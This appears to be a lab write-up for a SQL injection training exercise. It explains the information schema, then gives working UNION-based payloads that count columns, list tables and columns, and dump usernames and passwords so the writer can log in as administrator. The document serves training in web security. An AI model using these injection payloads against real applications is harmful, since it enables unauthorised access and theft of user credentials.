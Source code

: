 Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.
We can query through the information schema:<br>
``SELECT * FROM information_schema.tables``
This returns output like the following:

<table border="1">
  <tr>
    <th>TABLE_CATALOG</th>
    <th>TABLE_SCHEMA</th>
    <th>TABLE_NAME</th>
    <th>TABLE_TYPE</th>
  </tr>
  <tr>
    <td>MyDatabase</td>
    <td>dbo</td>
    <td>Products</td>
    <td>BASE TABLE</td>
  </tr>
  <tr>
    <td>MyDatabase</td>
    <td>dbo</td>
    <td>Users</td>
    <td>BASE TABLE</td>
  </tr>
  <tr>
    <td>MyDatabase</td>
    <td>dbo</td>
    <td>Feedback</td>
    <td>BASE TABLE</td>
  </tr>
</table>

This output indicates that there are three tables, called **_Products, Users, and Feedback._**

You can then query information_schema.columns to list the columns in individual tables:

``SELECT * FROM information_schema.columns WHERE table_name = 'Users'``


<br>

**<h2>Problem:</h2>**
This lab contains a SQL injection vulnerability in the product category filter. The application has a login function, and the database contains a table that holds usernames and passwords. 

**<h2>Goal:</h2>**
We need to determine the _**name**_ of this table and _**the columns it contains**_, then retrieve the contents of the table to obtain the username and password of all users.
<br>

To solve the lab, log in as the **_administrator_** user

**<h2>Solution:</h2>**
- Check the database type using ``'--`` or ``'#``. 
Produces error on second one so we assume its a non oracle database.
- check number of columns present using ``' order by 1--``. Produces an internall server error for 3 columns so there are only 2 columns present.
- Check whats in each column using ``'union select 'a', NULL--``. Both column have text type data.
- Check for the tables present in the columns using: 
``'union select table_name, NULL from information_schema.tables--`` which produces a huge list of tables; out of the tables shown we find ``users_bmquvo`` , so testing query for its content.
![alt text](/images/lab5listingtables.png)
- Check the column names from the table using : ``'union select column_name, NULL from information_schema.columns where table_name='users_bmquvo'--``, this produces these columns: 
![alt text](/images/lab5listingcolumns.png)
- Now check the password of the username given: <br>
``' union select username_yvxtai, password_bvkxeo from users_bmquvo--``, which produces the output of username and password in the column
![alt text](/images/lab5usernameandpassword.png)
- Now login with the given credentials for administrator to solve the lab.
